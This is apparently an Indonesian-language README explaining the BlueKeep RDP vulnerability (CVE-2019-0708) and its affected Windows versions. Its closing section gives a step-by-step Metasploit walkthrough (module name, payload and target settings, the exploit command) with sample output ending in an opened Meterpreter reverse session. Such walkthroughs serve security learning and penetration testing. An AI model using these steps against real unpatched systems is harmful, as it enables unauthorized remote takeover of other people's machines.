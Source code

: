 # BlueKeep

## A. Apa itu BlueKeep?

[BlueKeep](https://en.wikipedia.org/wiki/BlueKeep) adalah kerentanan keamanan serius pada Remote Desktop Services (sebelumnya dikenal sebagai Terminal Services) di sistem operasi Windows. Kerentanan ini terdaftar dengan ID `CVE-2019-0708` dan memungkinkan Remote Code Execution (RCE) tanpa autentikasi melalui protokol `RDP` (Remote Desktop Protocol) pada port `3389`.

BlueKeep pertama kali ditemukan oleh [National Security Agency (NSA)](https://www.nsa.gov/) dan [UK’s National Cyber Security Centre (NCSC)](https://www.ncsc.gov.uk/). Microsoft merilis pembaruan darurat pada `Mei 2019`, termasuk untuk sistem yang sudah tidak mendapat dukungan resmi seperti `Windows XP`.

> BlueKeep memiliki kemampuan untuk menyebar sendiri (wormable), mirip dengan `EternalBlue`, dan dianggap sangat berbahaya karena bisa digunakan untuk serangan massal.

## B. Detail Teknis
- CVE ID: `CVE-2019-0708`
- Tanggal Rilis: `14 Mei 2019`
- Tipe: Remote Code Execution (RCE)
- Protokol: `RDP` (Remote Desktop Protocol)
- Komponen: `TermService`
- Platform: `Windows XP`, `Vista`, `7`, `Server 2003`, `Server 2008`, `Server 2008 R2`
- Arsitektur: `x86` dan `x64`
- Skor CVSS: `9.8` (Kritis)

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `BlueKeep`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2019-0708](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2019-0708)

## D. Langkah Penggunaan di Metasploit

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan Modul Exploit BlueKeep:

   ```
   msf6 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
   ```

3. Setting Parameter Penting:

   ```
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set RHOSTS <IP_TARGET>
   msf6 > set RPORT 3389
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
4. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] 192.168.1.50:3389 - Sent 237/250 MB. (Time elapsed: 00:00:47)
   [*] 192.168.1.50:3389 - Sent 238/250 MB. (Time elapsed: 00:00:47)
   [*] 192.168.1.50:3389 - Sent 239/250 MB. (Time elapsed: 00:00:47)
   [*] 192.168.1.50:3389 - Sent 240/250 MB. (Time elapsed: 00:00:48)
   [*] 192.168.1.50:3389 - Sent 241/250 MB. (Time elapsed: 00:00:48)
   [*] 192.168.1.50:3389 - Sent 242/250 MB. (Time elapsed: 00:00:48)
   [*] 192.168.1.50:3389 - Sent 243/250 MB. (Time elapsed: 00:00:48)
   [*] 192.168.1.50:3389 - Sent 244/250 MB. (Time elapsed: 00:00:48)
   [*] 192.168.1.50:3389 - Sent 245/250 MB. (Time elapsed: 00:00:49)
   [*] 192.168.1.50:3389 - Sent 246/250 MB. (Time elapsed: 00:00:49)
   [*] 192.168.1.50:3389 - Sent 247/250 MB. (Time elapsed: 00:00:49)
   [*] 192.168.1.50:3389 - Sent 248/250 MB. (Time elapsed: 00:00:49)
   [*] 192.168.1.50:3389 - Sent 249/250 MB. (Time elapsed: 00:00:49)
   [*] 192.168.1.50:3389 - Sent 250/250 MB. (Time elapsed: 00:00:50)
   [*] 192.168.1.50:3389 - Forcing the USE of FREE'd object ...
   [!] 192.168.1.50:3389 - <---------------- | Leaving Danger Zone | ---------------->
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 7 opened (192.168.1.42:4444 -> 192.168.1.50:49159) at 2025-05-15 22:11:42 +0700

   meterpreter >
   ```
   
   Itu artinya kita sudah berhasil mengeksploitasi mesin terget.
